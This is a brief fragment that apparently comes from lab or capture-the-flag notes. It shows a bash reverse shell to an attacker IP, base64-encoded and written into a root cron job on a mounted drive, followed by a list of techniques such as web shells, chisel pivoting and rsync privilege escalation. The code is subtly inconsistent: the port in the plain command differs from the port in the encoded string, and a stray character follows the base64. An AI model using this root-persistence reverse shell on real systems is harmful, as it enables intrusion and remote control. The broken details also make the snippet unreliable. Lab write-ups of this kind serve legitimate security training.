 ```bash
cd sda2/etc/cron.d

echo 'bash >& /dev/tcp/10.10.14.132/10509 0>&1' | base64

YmFzaCA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMzIvMTA1MDYgMD4mMQo=

echo "* * * * * root echo YmFzaCA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMzIvMTA1MDYgMD4mMQo=K | base64 -d | bash" > runme
```

- http verb tampering
- reverse shell
- simple web shell
- chisel reverse pivot
- chisel local pivot
- exploiting cron jobs
- GTFObins on rsync
- file transfer
- linenum
- mountable drives /dev/sda